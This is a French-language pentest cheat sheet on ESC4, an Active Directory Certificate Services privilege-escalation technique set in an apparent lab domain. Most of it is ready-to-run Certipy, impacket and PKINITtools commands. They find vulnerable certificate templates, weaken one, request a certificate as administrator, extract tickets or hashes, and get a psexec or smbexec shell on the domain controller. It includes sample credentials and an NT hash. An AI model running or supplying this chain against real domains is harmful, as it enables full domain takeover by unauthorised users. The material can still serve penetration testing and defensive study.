 # ESC4

***

ESC4 est une **technique d’escalade de privilèges** dans un environnement ADCS via **la modification non autorisée d’un modèle de certificat (Certificate Template)**. Elle exploite des **droits d’accès mal configurés** permettant à un utilisateur standard de :

* Modifier les ACL du modèle de certificat.
* Délivrer des certificats abusivement à des comptes à privilèges (comme les Domain Admins).

***

### <mark style="color:red;">🧠</mark> <mark style="color:red;"></mark><mark style="color:red;">**Pré-requis (Post-Exploitation)**</mark>

Pour réaliser une attaque ESC4, l’attaquant doit disposer de :

* Un accès initial à un compte non privilégié dans le domaine.
* Des **droits spécifiques sur un modèle de certificat** :
  * `Owner`
  * `WriteOwnerPrincipals`
  * `WriteDaclPrincipals`
  * `WritePropertyPrincipals`
* Un modèle de certificat vulnérable **activé** et avec **l'enrôlement autorisé**.
* Outils :
  * `Certipy` 🥇
  * `Impacket`, `evil-winrm`, `BloodHound`, `PKINITtools`

***

### <mark style="color:red;">🔐</mark> <mark style="color:red;"></mark><mark style="color:red;">**Droits ACL Exploitables**</mark>

Voici les **droits dangereux** sur un modèle de certificat :

| Droit ACL                 | Impact                                                                              |
| ------------------------- | ----------------------------------------------------------------------------------- |
| `Owner`                   | Droit complet sur l’objet.                                                          |
| `WriteOwnerPrincipals`    | Peut changer le propriétaire du modèle.                                             |
| `WriteDaclPrincipals`     | Peut modifier la liste de contrôle d’accès (DACL).                                  |
| `WritePropertyPrincipals` | Peut modifier les propriétés du modèle, y compris les UPN et les règles d’émission. |

***

### <mark style="color:red;">🛠️</mark> <mark style="color:red;"></mark><mark style="color:red;">**Détection de modèles vulnérables**</mark>

#### Avec Certipy :

```bash
certipy find -u <user> -p <pass> -dc-ip <IP_DC> -vulnerable -enabled -old-bloodhound
```

#### Extraction simple :

```bash
cat *_Certipy.txt | grep "ESC4"
```

#### Avec BloodHound :

Importation des fichiers générés par `Certipy` (JSON/ZIP) dans BloodHound.

***

### <mark style="color:red;">🚨</mark> <mark style="color:red;"></mark><mark style="color:red;">**Étapes de l’attaque (Linux & Windows)**</mark>

***

#### <mark style="color:green;">🎯 1.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Modifier le modèle de certificat pour l’affaiblir (via Certipy)**</mark>

```bash
certipy template -dc-ip 192.168.115.180 -u pcoulson -p 'P4ssw0rd123456@' -template ESC4 -target DC4.shield.local -save-old
```

***

#### <mark style="color:green;">🧾 2.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Demander un certificat au nom de l’administrateur**</mark>

```bash
certipy req -ca SHIELD-DC4-CA -dc-ip 192.168.115.180 -u pcoulson -p 'P4ssw0rd123456@' -template ESC4 -target DC4.shield.local -upn administrator@shield.local
```

***

#### <mark style="color:green;">🔐 3.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Authentifier avec le certificat .pfx et extraire le TGT**</mark>

```bash
certipy auth -pfx administrator.pfx
```

***

### <mark style="color:blue;">🔓</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**Exploitation post-authentification**</mark>

#### <mark style="color:green;">➕ Pass-The-Hash :</mark>

```bash
impacket-smbexec administrator@dc4.shield.local -hashes aad3b435b51404eeaad3b435b51404ee:c5153b43885058f27715b476e5246a50
```

#### <mark style="color:green;">➕ TGT avec impacket :</mark>

```bash
export KRB5CCNAME=administrator.ccache
impacket-psexec administrator@dc4.shield.local -k -no-pass
```

#### <mark style="color:green;">➕ Avec PKINITtools :</mark>

```bash
python gettgtpkinit.py shield.local/administrator -cert-pfx administrator.pfx PKINIT-Administrator.ccache
export KRB5CCNAME=PKINIT-Administrator.ccache
impacket-psexec administrator@dc4.shield.local -k -no-pass
```

***

### <mark style="color:red;">🔁</mark> <mark style="color:red;"></mark><mark style="color:red;">**Restaurer la configuration initiale du modèle**</mark>

```bash
certipy template -dc-ip 192.168.115.180 -u pcoulson -p 'P4ssw0rd123456@' -template ESC4 -target DC4.shield.local -configuration ESC4.json
```

***

### <mark style="color:red;">📌</mark> <mark style="color:red;"></mark><mark style="color:red;">**Résumé schématique**</mark>

```
[ User "pcoulson" ]
        ↓
[ Droits ACL sur ESC4 ]
        ↓
[ Modification du template (ESC1-like) ]
        ↓
[ Requête Certificat Admin ]
        ↓
[ .pfx → auth avec Certipy ]
        ↓
[ TGT ou hash Admin ]
        ↓
[ psexec / smbexec → DC ]
```

***
